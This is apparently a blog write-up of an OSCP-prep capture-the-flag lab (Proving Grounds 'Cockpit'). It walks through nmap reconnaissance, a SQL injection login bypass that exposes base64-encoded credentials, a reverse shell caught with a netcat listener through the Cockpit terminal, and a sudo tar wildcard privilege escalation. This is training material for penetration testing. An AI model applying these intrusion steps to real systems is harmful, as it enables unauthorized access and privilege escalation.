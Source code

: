 ```yaml
---
date: '2024-10-11'
before : '2024-10-04'
after : '2024-10-11'
title: 'OSCP Prep: Proving Grounds : Cockpit'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Hub machine from Proving Grounds'
thumbnail: '../contentImages/cockpit/1.png'
---
```


## 1. Recon

- nmap scan
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p- -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 08:39 EDT
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 83.10% done; ETC: 08:40 (0:00:05 remaining)
Nmap scan report for 192.168.157.10
Host is up (0.040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin

Nmap done: 1 IP address (1 host up) scanned in 36.19 seconds
```
- port 9090
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p9090 -T4 -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 08:46 EDT
Nmap scan report for 192.168.157.10
Host is up (0.030s latency).

PORT     STATE SERVICE
9090/tcp open  zeus-admin
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2024-10-06T12:41:26
|_Not valid after:  2124-09-12T12:41:26
|_ssl-date: TLS randomness does not represent time
```
- port 80
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p80 -sC -sV          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 08:48 EDT
Nmap scan report for 192.168.157.10
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
```
## 2. Initial Foothold
Visited port 80
![image](../contentImages/cockpit/1.png)

Then, visited port 9090
![image](../contentImages/cockpit/2.png)

I found login.php during fuzzing
![image](../contentImages/cockpit/3.png)

Hmm, blaze?

```
┌──(root㉿kali)-[/home/hslee]                                                                                        
└─# searchsploit blaze          

Blaze Apps - Multiple Vulnerabilities | asp/webapps/12734.txt           │
Blaze Apps 1.x - SQL Injection / HTML Injection | multiple/webapps/33995.txt 
```

There is SQL Injection vuln. I tried with simple quote:

![image](../contentImages/cockpit/4.png)
I tried simply *admin' -- -*, since there is a "like" operator. Then:

![image](../contentImages/cockpit/5.png)

base64 decoded, then I got:
```
james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152
```
ssh failed, so I should try port 9090.
Then I could login with james credential.

![image](../contentImages/cockpit/6.png)

There is a terminal. We can surely initialize our revshell.

## 3. Privesc

```
┌──(hlee㉿hlee)-[~/oscp/offsec/cockpit]
└─$ nc -lvnp 80    
listening on [any] 80 ...
connect to [192.168.45.223] from (UNKNOWN) [192.168.180.10] 53504
$ whoami
james
$ sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
$ 
```
As I logged in, I started with sudo -l. We see that we can use specific command from tar as root.
After googlig:
https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

I found the exact same step, only with v option attached (which should not influence the poc)

![image](../contentImages/cockpit/7.png)

---
## Source

- Proving Grounds
- Me!